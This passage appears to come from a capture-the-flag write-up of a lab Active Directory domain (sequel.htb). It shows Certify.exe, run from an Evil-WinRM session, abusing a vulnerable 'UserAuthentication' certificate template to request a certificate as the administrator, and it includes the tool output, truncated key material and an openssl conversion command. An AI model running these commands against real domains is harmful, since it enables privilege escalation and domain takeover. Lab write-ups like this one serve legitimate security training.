 ````powershell
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519

````

Now that we have identified the vulnerable certificate template, we can use Certify.exe to exploit it. This will allow us to request a certificate that could be used to impersonate the administrator account.

First, in our Evil-WinRM session, navigate to the directory where Certify.exe is located. Then, execute the following command to request a certificate from the domain's Certificate Authority using the vulnerable "UserAuthentication" template:

````powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents\t> .\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Request a Certificates

[*] Current user context    : sequel\Ryan.Cooper
[*] No subject name specified, using current context as subject.

[*] Template                : UserAuthentication
[*] Subject                 : CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] AltName                 : administrator

[*] Certificate Authority   : dc.sequel.htb\sequel-DC-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 13

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
(..cutted..)
vCGP+tStNEn6lGY2t9etQ/UvQ4uMwS8nwFbcmXeWw5eXmVKeRgi/dA==
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGEjCCBPqgAwIBAgITHgAAAA2gDXMm8Qef0AAAAAAADTANBgkqhkiG9w0BAQsF
(..cutted..)
-----END CERTIFICATE-----


[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

````
